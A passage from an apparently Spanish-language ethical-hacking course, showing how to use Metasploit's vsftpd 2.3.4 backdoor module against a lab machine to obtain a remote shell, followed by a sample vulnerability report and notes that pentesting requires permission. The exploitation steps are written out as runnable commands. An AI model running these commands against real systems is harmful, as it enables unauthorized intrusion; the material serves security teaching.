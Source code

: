 ##### 🔧 2. Explotación con Metasploit

Lanzamos el framework:

```bash
msfconsole
```

Buscamos un exploit para VSFTPD:

```bash
search vsftpd
```

Cargamos el módulo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```

💥 Si es vulnerable, abrirá una **shell remota**:

```bash
[*] Command shell session 1 opened
```

Ya estás **dentro del sistema vulnerable** (solo en entorno de laboratorio legal).

---

##### 📋 3. Reporte (como hacker ético)

Documento sencillo:

- **Nombre**: vsftpd 2.3.4 vulnerable a backdoor
- **Puerto**: 21/tcp
- **Impacto**: ejecución remota de comandos
- **Recomendación**: actualizar o deshabilitar vsftpd, bloquear puerto si no se usa

---

### ✅ Conclusión

- El **pentesting NO es hacking ilegal**, sino una actividad profesional y ética.
- Se realiza **bajo contrato, con permiso**, y con el fin de **ayudar a las organizaciones a mejorar su seguridad**.
- Puedes empezar en casa usando **Kali Linux y máquinas virtuales vulnerables**.
- Aprender paso a paso te prepara para ser un futuro **hacker ético profesional** 🧑‍💻🛡️

---

[🔼](#índice)

---

## **872. Tipos de pentesting. Fase Pre-ataque**
